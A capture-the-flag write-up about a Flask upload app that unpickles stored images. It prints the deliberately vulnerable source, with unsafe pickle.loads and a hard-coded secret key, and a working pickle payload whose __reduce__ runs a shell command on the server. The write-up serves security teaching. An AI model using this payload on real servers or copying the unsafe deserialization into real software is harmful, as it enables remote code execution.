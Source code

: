 They give the source code of the webapp in challenge so lets take a look at it.
```
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
So, the website allows you to upload an image, and then it stores it in the "images/" directory with a random name.

You're only allowed to post .png, .jpg, and .jpeg files.
It determines the file type by the file name, and not by the contents of the file.
This means that so long as it ends in the above extensions it will allow the upload.

Let's also take a look at the "display_image" function.
When you try to go to an image in the images/ directory, it will try to unpickle the file, and regardless of whether the "pickle.loads" returns anything, will redirect you to the image.

What is pickling?

If you're familiar with PHP, pickling is the same as serialize/unserialize. More info can be found in the docs below.
(https://docs.python.org/3/library/pickle.html)

However, unpickling user input is very dangerous, as when something is unpickled, it is executed immediately.

The game plan for attack is to write serialized data to a file, upload it, then access the file, causing our code to be executed on the server.

For this I created a script to cat the flag.txt into an arbitrary file in the images directory. With special help from SecureFlag :) (https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html)
```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ("cat flag.txt > images/flaggerino")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open('exploit.png', 'wb') as file:
        file.write(pickled)
```

If we upload the png, then go to /images/flaggerino, we'll get the flag!

Moral of the story, DON'T UNSERIALIZE UNSANITIZED USER INPUT!!!!
